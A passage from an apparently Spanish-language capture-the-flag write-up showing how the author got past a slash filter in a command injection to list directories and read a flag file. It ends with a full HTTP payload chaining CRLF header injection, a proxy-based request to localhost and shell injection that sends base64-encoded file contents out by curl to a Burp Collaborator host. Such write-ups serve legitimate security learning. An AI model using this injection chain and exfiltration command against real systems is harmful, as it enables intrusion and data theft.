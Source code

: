 Se observa que si funciona, otro incoveniente ahora es que no se puede usar / en el comando, entonces para listar y navegar por directorios tuve que usar un poco de ingenio.

En vez de realizar 

```bash
cd ../../../ | base64 -w0
```
Tuve que realizar el siguiente, dado que este comando no tiene el caracter '/' y no rompe la sintaxis de una url.

```bash
echo 'cd ..;cd ..;cd ..; ls'|sh| base64 -w0
```

![listfiles](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-8.png)

```bash 
echo 'cd ..;cd ..;cd ..; cat flag-jqpeei2a5jk8hr8.txt'|sh| base64 -w0
```

Como payload final para leer la flag usé Burp Collaborator para decodear a la vez de base64.

```js
GET /cgi-bin/attack-domain?target=-&name=a%0d%0aLocation:+/a%0d%0aContent-Type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(curl%25%32%30cfvekttb0yhbc2ia84d9zkasqjwak68v.oastify.com?p=$(echo%25%32%30%27cd%25%32%30..%25%33%62cd%25%32%30..%25%33%62cd%25%32%30..%25%33%62%25%32%30cat%25%32%30*.txt%27|sh|%25%32%30base64%25%32%30-w0))%260name=%0D%0A%0D%0A 
```
